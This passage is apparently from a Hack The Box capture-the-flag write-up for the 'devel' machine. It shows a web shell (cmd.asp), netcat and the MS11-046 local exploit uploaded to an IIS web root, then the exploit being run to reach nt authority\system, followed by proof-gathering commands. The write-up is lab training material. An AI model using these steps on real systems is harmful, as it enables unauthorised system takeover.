 ## Privilege escalation
After uploading the file to the target we should execute the exploit. To do this I like to change the working directory to the place where we have uploaded the exploit.
```
c:\windows\system32\inetsrv>cd c:\
cd c:\

c:\>cd C:\inetpub\wwwroot\
cd C:\inetpub\wwwroot\

C:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\inetpub\wwwroot

04/04/2023  06:43 ��    <DIR>          .
04/04/2023  06:43 ��    <DIR>          ..
18/03/2017  02:06 ��    <DIR>          aspnet_client
04/04/2023  06:13 ��             1.181 cmd.asp
17/03/2017  05:37 ��               689 iisstart.htm
04/04/2023  06:44 ��           240.005 MS11-046.exe
04/04/2023  06:15 ��            59.392 nc.exe
04/04/2023  06:21 ��                 0 radB37DF.tmp
17/03/2017  05:37 ��           184.946 welcome.png
               6 File(s)        486.213 bytes
               3 Dir(s)   4.694.843.392 bytes free

```
Now we can run our exploit to gain more privileges.
```
C:\inetpub\wwwroot>MS11-046.exe
MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```
We are `nt authority\system` on the target, this means we have pwned the system. Now we should capture the flags and some proof of the target.
```

c:\Windows\System32>hostname
hostname
devel

c:\Windows\System32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection 4:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::fc7d:fa80:da7b:5c3a
   Temporary IPv6 Address. . . . . . : dead:beef::8815:9f26:3fd7:3dc1
   Link-local IPv6 Address . . . . . : fe80::fc7d:fa80:da7b:5c3a%19
   IPv4 Address. . . . . . . . . . . : 10.129.253.47
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:7437%19
                                       10.129.0.1
```